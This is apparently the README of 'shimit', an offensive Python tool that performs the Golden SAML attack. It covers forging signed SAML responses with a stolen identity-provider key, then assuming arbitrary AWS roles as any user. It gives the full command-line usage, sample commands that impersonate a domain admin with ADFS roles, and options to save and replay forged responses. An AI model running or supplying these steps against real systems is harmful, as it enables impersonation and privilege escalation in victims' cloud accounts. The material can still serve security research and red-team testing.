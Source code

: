 # shimit

`shimit` is a python tool that implements the Golden SAML attack.

```
python .\shimit.py -h
usage: shimit.py [-h] -pk KEY [-c CERT] [-sp SP] -idp IDP -u USER [-reg REGION]
                 [--SessionValidity SESSION_VALIDITY] [--SamlValidity SAML_VALIDITY] -n SESSION_NAME
                 -r ROLES -id ARN [-o OUT_FILE] [-l LOAD_FILE] [-t TIME]
                 
              ██╗   ███████╗██╗  ██╗██╗███╗   ███╗██╗████████╗     ██╗ ██╗  
             ██╔╝   ██╔════╝██║  ██║██║████╗ ████║██║╚══██╔══╝    ██╔╝ ╚██╗ 
            ██╔╝    ███████╗███████║██║██╔████╔██║██║   ██║      ██╔╝   ╚██╗
            ╚██╗    ╚════██║██╔══██║██║██║╚██╔╝██║██║   ██║     ██╔╝    ██╔╝
             ╚██╗   ███████║██║  ██║██║██║ ╚═╝ ██║██║   ██║    ██╔╝    ██╔╝ 
              ╚═╝   ╚══════╝╚═╝  ╚═╝╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═╝     ╚═╝  
```
## Overview
In a golden SAML attack, attackers can gain access to an application (any application that supports SAML authentication) with any privileges they desire and be any user on the targeted application.

*shimit* allows the user to create a signed _SAMLResponse_ object, and use it to open a session in the Service Provider. *shimit* now supports AWS Console as a _Service Provider_, more are in the works...
### AWS 
After generating and signing the _SAMLResponse_'s _assertion_, shimit will call the _AssumeRoleWithSAML()_ API in AWS. Then, the session token and key will be applied to a new session, where the user can use aws cli to perform action using the permissions obtained using the *golden SAML*. 

## Requirements:
For installing the required modules, run the following command:

```
python -m pip install boto3 botocore defusedxml enum python_dateutil lxml signxml
```
### AWS cli ###
Needs to be installed in order to use the credentials obtained.
Can be downloaded for [Windows](http://docs.aws.amazon.com/cli/latest/userguide/awscli-install-windows.html) or
[Linux](http://docs.aws.amazon.com/cli/latest/userguide/awscli-install-linux.html)
from these links.


## Usage:


### Apply session for AWS cli
```
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file
-u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
```
**idp** - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust

**pk**  - Private key file full path (pem format)

**c**   - Certificate file full path (pem format)

**u**   - User and domain name e.g. domain\username (use \\ or quotes in *nix)

**n**   - Session name in AWS

**r**   - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.

**id**  - AWS account id e.g. 123456789012



### Save SAMLResponse to file
```
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file
-u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
**o**  - Output encoded SAMLResponse to a specified file path
### Load SAMLResponse from file
```
python .\shimit.py -l saml_response.xml
```
**l**  - Load SAMLResponse from a specified file path

## Contributions

`shimit` supports AWS as a service provider at the moment, as a POC. We highly encourage you to conribute with a new modules for other service providers. 
